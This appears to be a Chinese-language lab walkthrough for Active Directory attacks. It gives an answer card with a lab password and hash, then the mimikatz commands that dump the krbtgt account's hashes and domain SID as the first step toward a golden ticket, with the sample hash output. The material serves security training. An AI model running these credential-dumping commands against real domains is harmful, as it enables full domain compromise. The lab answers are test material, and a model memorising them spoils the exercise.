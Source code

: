 

### 答題卡:

```

Machine1 密碼是什麼？
Password1



什麼是 Machine2 哈希？
c39f2beb3d2ec06a62cb887fb391dee0

```



### mimikatz 的金票攻擊

再次使用與上一個任務相同的工具；然而，這次我們將使用它來創建一張金票。
我們將首先轉儲 krbtgt 用戶的哈希和 sid，然後創建一張金票，並使用該金票打開一個新的命令提示符，允許我們訪問網絡上的任何機器。



```
mimikatz.exe


privilege::debug


lsadump::lsa /inject /name:krbtgt
這會轉儲 Kerberos Ticket Granting Ticket 帳戶的哈希和安全標識符，允許您創建黃金票證

```


```
Domain : CONTROLLER / S-1-5-21-849420856-2351964222-986696166 
                                                              
RID  : 000001f6 (502)                                         
User : krbtgt                                                 
                                                              
 * Primary                                                    
    NTLM : 5508500012cc005cf7082a9a89ebdfdf
    LM   :
  Hash NTLM: 5508500012cc005cf7082a9a89ebdfdf
    ntlm- 0: 5508500012cc005cf7082a9a89ebdfdf 
    lm  - 0: 372f405db05d3cafd27f8e6a4a097b2c

 * WDigest
    01  49a8de3b6c7ae1ddf36aa868e68cd9ea
    02  7902703149b131c57e5253fd9ea710d0
    03  71288a6388fb28088a434d3705cc6f2a
    04  49a8de3b6c7ae1ddf36aa868e68cd9ea
    05  7902703149b131c57e5253fd9ea710d0
    06  df5ad3cc1ff643663d85dabc81432a81
    07  49a8de3b6c7ae1ddf36aa868e68cd9ea
    08  a489809bd0f8e525f450fac01ea2054b
    09  19e54fd00868c3b0b35b5e0926934c99 
    10  4462ea84c5537142029ea1b354cd25fa
    11  6773fcbf03fd29e51720f2c5087cb81c
    12  19e54fd00868c3b0b35b5e0926934c99
    13  52902abbeec1f1d3b46a7bd5adab3b57
    14  6773fcbf03fd29e51720f2c5087cb81c
    15  8f2593c344922717d05d537487a1336d
    16  49c009813995b032cc1f1a181eaadee4
    17  8552f561e937ad7c13a0dca4e9b0b25a
```
